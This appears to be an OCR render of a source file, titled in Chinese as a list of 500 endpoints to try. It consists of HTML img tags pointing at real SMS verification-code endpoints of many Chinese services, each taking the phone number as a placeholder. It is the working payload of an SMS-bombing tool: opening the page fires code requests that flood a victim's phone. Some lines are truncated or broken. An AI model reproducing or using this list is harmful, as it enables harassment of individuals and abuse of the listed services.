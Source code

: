# 500个接口，自己试试有没有效

c='http://api.passport.pptv.com:80/checkImageCodeAndSendMsg?&scene=REG_PPTV_APP&deviceId=867830021000533&aliasName=$d' alt=''/>
<img src='http://reg.suning.com:80/ajax/code/sms.do?scen=WAP_WCHAT_PUB_ACCT_UNION_LOGIN_MOBILE_REG&phoneNum=$d' alt=''/>
<img src='http://m.tk.cn:80/tkmobile/orderSentSmsServlet?mobile=$d' alt=''/>
<img src='https://androidapi4.yc.ifeng.com:443/api/fread/user/msgAuthCode?phoneNum=$d' alt=''/>&v=5.5.32.83027
<img src='http://api.moonreader.cn:80/mreader/common/sendMobile.do?mobile=$d' alt=''/>
<img src='http://v2.tgmmvip.com:80/wolong/user/getphonecode?phone=$d' alt=''/>&deviceid=864680046080077&type=0
<img src='https://api.taoelement.vip:443/account/sms/sms/captcha/$d' alt=''/>/mineTker
<img src='http://slb-sport.vesal.cn:80/vesal-sport-prod/v1/app/member/getCode?tellAndEmail=$d' alt=''/>
<img src='http://www.gangaimall.com:80/mbb-web/api/account/code?mobile=$d' alt=''/>&type=0
<img src='https://m.yiwise.com/apiPlatform/verificationCode/send?phoneNumber=$d' alt=''/>
<img src='https://m.health.pingan.com:443/mapi/smsCode.json?deviceId=5a4c935cbb6ff6ca&deviceType=SM-G9300&timestamp=1545122608&app=0&platform=3&app_key=PAHealth&osversion=23&info=&version=1.0.1&resolution=1440x2560&screenSize=22&netType=1&channel=m_h5&phone=$d' alt=''/>
<img src='https://consumer.fcbox.com:443/v1/account/sendCode?mobile=$d' alt=''/>
<img src='http://doc.u-ease.com:80/account/Verifycode/login?app_os=IOS&app_version=3.0.8&device_id=B097BD84-2B27-4E2B-AAB3-D05E3AE0FBE0&phone=$d' alt=''/>
<img src='http://ccyagu.gswanzhong.com:80/Apicloud/User/sendCaptcha?Mobile=$d' alt=''/>
<img src='https://exmail.qq.com/cgi-bin/bizmail_portal?action=send_sms&type=11&t=biz_rf_portal_mgr&ef=jsnew&resp_charset=UTF8&area=86&mobile=$d' alt=''/>
<img src='https://ptlogin.4399.com:443/ptlogin/sendPhoneLoginCode.do?phone=$d' alt=''/>
<img src='http://app.jiayouxueba.cn/api/v3/sms/getcode?mobile=$d' alt=''/>
<img src='https://user.zhaobiao.cn/ssologin.do?method=sendLoginCodeAjax&mobile=$d' alt=''/>&hasSend=0
<img src='http://user.daojia.com/mobile/getcode?mobile=$d' alt=''/>
<img src='http://api.passport.pptv.com/checkImageCodeAndSendMsg?&scene=REG_PPTV_APP&deviceId=867830021000533&aliasName=$d' alt=''/>
<img src='https://passport.fanhuan.com/login/asklogincode?callback=jQuery18307700360712450502_1523359569433&mobile=$d' alt=''/>
<img src='http://api.fine3q.com/link-site/api/user/get_verification_code.json?ts=1561901787148&c_id=1&p=a&d_id=861913032338784&ver=3.1.5&mobile=$d' alt=''/>
<img src='https://api-dcdn.jiayouxueba.cn/api/v3/sms/vcode?countryId=685&mobile=$d' alt=''/>
<img src='https://class.hujiang.com/classtopic/handler/phonecaptcha?areaID=87051&phoneNumber=$d' alt=''/>
<img src='http://api.qingmang.me/v1/account.sendVerification?code=1566478386.8872059778&phone=$d' alt=''/>
<img src='http://api.xtgyl.cn/index.php/api_v1/api.app.login/sendCaptcha?mobile=$d' alt=''/>
<img src='http://api.yuyin-tv.com/v1/account/verifycode/register?phone=$d' alt=''/>
<img src='http://app.quanlaoda.com/app.php?&m=code&a=send_login_code&phone=$d' alt=''/>
<img src='http://bizapi.pezy.cn/qknode/sms/reqSmsCode?df=android&publishid=1003&deviceId=8812baafc8de4fe4&vt=5&screen=720x1280&deviceid=&os=android&proid=qknode&av=MMB29M&appVersion=1.6.1&imei=&ov=6.0.1&osVersion=6.0.1&deviceVersion=Redmi%204A&osLevel=23&phone=$d' alt=''/>
<img src='http://ccyagu.gswanzhong.com/Apicloud/User/sendCaptcha?Mobile=$d' alt=''/>
<img src='https://m.yiwise.com/apiPlatform/verificationCode/send?phoneNumber=$d' alt=''/>
<img src='http://slb-sport.vesal.cn/vesal-sport-prod/v1/app/member/getCode?tellAndEmail=$d' alt=''/>
<img src='http://www.gangaimall.com/mbb-web/api/account/code?mobile=$d' alt=''/>&type=0
<img src='https://m.health.pingan.com/mapi/smsCode.json?deviceId=5a4c935cbb6ff6ca&deviceType=SM-G9300&timestamp=1545122608&app=0&platform=3&app_key=PAHealth&osversion=23&info=&version=1.0.1&resolution=1440x2560&screenSize=22&netType=1&channel=m_h5&phone=$d' alt=''/>
<img src='https://consumer.fcbox.com/v1/account/sendCode?mobile=$d' alt=''/>
<img src='http://doc.u-ease.com/account/Verifycode/login?app_os=IOS&app_version=3.0.8&device_id=B097BD84-2B27-4E2B-AAB3-D05E3AE0FBE0&phone=$d' alt=''/>
<img src='http://ccyagu.gswanzhong.com/Apicloud/User/sendCaptcha?Mobile=$d' alt=''/>